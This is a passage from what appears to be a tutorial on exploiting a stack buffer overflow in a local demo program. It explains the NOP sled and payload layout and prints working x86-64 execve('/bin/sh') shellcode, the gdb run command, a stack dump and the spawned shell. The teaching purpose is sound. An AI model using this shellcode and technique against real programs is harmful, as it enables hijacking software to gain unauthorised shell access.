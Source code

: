 A NOP is an assembly instruction that performs no operation. A NOP-sled is a neat trick that makes it easier to "hit" our shellcode with the address we'll overwrite ret with. The address of the buffer can vary based on a lot of factors, so a NOP-sled will increase our chances of not jumping outside or in the middle of our shellcode.

> A NOP instruction has byte value 0x90 in x86 assembly.

> If we know the precise location of the buffer, the NOP-sled is redundant (but not a problem).

The reason we want to postfix our shellcode is to keep it away from `$rbp` (remember that `$rbp` becomes the `$rsp` of a function we return to), because when our shellcode executes, some of it's instructions may push things onto the stack, overwriting parts of itself. Postfixing the shellcode with junk helps prevents this.

Here's one possible input to exploit the vulnerable program:

```
| 30 NOP's | 33 byte shellcode | 17 a's | 8 b's | 8 byte ret |
```

The ret should be to somewhere in our NOP-sled (find the address of the buffer by looking at the assembly or at the stack and add some bytes). I've chosen 0x7fffffffd5a8 on my system.

We can use python to help us input the exploit code:

```
(gdb) run `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\xa8\xd5\xff\xff\xff\x7f"'`
```

The program pauses at the breakpoint we set before `strcpy`. Let's go to the next instruction and examine the stack:

```bash
(gdb) ni
(gdb) x/96xb $rbp-0x50
0x7fffffffd5a0: 0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x7fffffffd5a8: 0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x7fffffffd5b0: 0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x7fffffffd5b8: 0x90    0x90    0x90    0x90    0x90    0x90    0x48    0x31
0x7fffffffd5c0: 0xd2    0x48    0xbb    0xff    0x2f    0x62    0x69    0x6e
0x7fffffffd5c8: 0x2f    0x73    0x68    0x48    0xc1    0xeb    0x08    0x53
0x7fffffffd5d0: 0x48    0x89    0xe7    0x48    0x31    0xc0    0x50    0x57
0x7fffffffd5d8: 0x48    0x89    0xe6    0xb0    0x3b    0x0f    0x05    0x61
0x7fffffffd5e0: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fffffffd5e8: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fffffffd5f0: 0x62    0x62    0x62    0x62    0x62    0x62    0x62    0x62
0x7fffffffd5f8: 0xa8    0xd5    0xff    0xff    0xff    0x7f    0x00    0x00
```

The buffer starts with the NOP-sled followed by the shellcode and padding junk. `ret` (on the last line) points inside the NOP-sled.

Now, delete all breakpoints, and continue the execution:

```bash
(gdb) d
(gdb) c
Continuing.
process 11057 is executing new program: /usr/bin/bash
sh-4.4$ 
```
